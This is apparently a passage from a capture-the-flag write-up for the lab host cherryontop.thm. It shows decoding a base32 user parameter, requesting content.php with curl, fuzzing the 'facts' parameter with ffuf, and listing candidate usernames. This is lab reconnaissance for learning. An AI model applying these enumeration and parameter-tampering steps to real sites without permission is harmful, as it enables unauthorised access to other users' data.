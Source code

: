 ```bash

                Error             </div>
        </div>
    </div>

    <!-- scripts -->
    <script src="jquery/jquery-3.4.1.js"></script>
    <script src="bootstrap/bootstrap.bundle.js"></script>
    <script src="bootstrap/bootstrap.affix.js"></script>
    <script src="js/script.js"></script>
</body>  
```

`hashid 'I52WK43U'`

```bash
Analyzing 'I52WK43U'
[+] Dahua 
```

`echo I52WK43U | base32 -d`

```bash
Guest
```

`curl -iLX GET 'http://cherryontop.thm/content.php?facts=1&user=I52WK43U'`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 14:34:13 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2499
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE
```

`ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w <(seq 1 100) -mc all -fw 754 -ic`

```bash
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 352ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 353ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 319ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 323ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 317ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 2823ms]
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 2823ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 4839ms]

```

`nano username_clean.txt`

```bash
root
chad-cherry
molly-milk
sam-sprinkles
bob-boba
notsus
Admin
```
